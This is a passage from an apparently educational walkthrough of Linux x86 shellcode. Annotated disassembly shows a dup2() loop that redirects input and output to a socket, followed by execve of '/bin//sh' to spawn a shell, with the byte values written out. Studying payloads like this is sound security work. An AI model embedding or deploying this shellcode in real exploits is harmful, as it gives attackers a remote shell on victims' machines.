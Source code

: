 ```nasm
                            ; push 0x0000002f (63) into EAX
00000005  6A3F              push byte +0x3f
00000007  58                pop eax

                            ; call syscall 63: dup2()
00000008  CD80              int 0x80
```

{% sidenote Use `dup2()` to redirect `stderr` to the Server Socket %}


```nasm
0000000A  49                dec ecx

                            ; jump back to 'push byte 0x3f', continue when ECX == -1
0000000B  79F8              jns 0x5
```

{% sidenote The instruction `JNS` is useful when you want your loop to perform another iteration: when `ECX=0` %}

```nasm
                            ; set EAX to 0xb
0000000D  6A0B              push byte +0xb
0000000F  58                pop eax

                            ; clear EDX and use a string terminator (NULL byte)
00000010  99                cdq
00000011  52                push edx

                            ; string '/bin//sh'
00000012  682F2F7368        push dword 0x68732f2f
00000017  682F62696E        push dword 0x6e69622f

                            ; copy the pointer to "/bin//sh" into EBX
0000001C  89E3              mov ebx,esp

                            ; argv argument of execve (array of pointers)
0000001E  52                push edx
0000001F  53                push ebx

                            ; ECX is an array of pointers: first value is pointer to "/bin//sh", second one is 0x00000000
00000020  89E1              mov ecx,esp

                            ; ; syscall 0xb (11): execve
00000022  CD80              int 0x80
```

{% sidenote After input/output/error is redirected, the shellcode spawn a shell (`/bin//sh`) %}

```nasm
00000024  6563686F          arpl [gs:eax+0x6f],bp
00000028  205135            and [ecx+0x35],dl
0000002B  32617A            xor ah,[ecx+0x7a]
0000002E  46                inc esi
0000002F  56                push esi
00000030  4D                dec ebp
00000031  49                dec ecx
00000032  7847              js 0x7b
00000034  0A                db 0x0a
```
